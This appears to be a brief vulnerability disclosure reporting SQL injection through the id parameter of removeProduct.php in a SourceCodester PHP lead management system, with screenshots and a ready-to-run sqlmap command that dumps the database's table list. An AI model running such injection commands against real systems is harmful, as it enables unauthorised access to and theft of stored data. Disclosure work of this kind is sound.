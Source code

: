 vendor：https://www.sourcecodester.com/

download link：https://www.sourcecodester.com/php/15933/lead-management-system-php-open-source-free-download.html

Vulnerability trigger parameter: $id

The process of vulnerability discovery is as follows：

![image](https://user-images.githubusercontent.com/30823782/208411420-ff6c6102-bfef-4ff2-bc4a-74318dcf7388.png)


EXP:

```
sqlmap.py -u "http://192.168.31.50/penglead/php_action/removeProduct.php?id=1" --dbms=mysql -D penglead --tables
```
![image](https://user-images.githubusercontent.com/30823782/208411453-8812c2b2-82a1-4c23-b5b3-bf19bfb91aec.png)


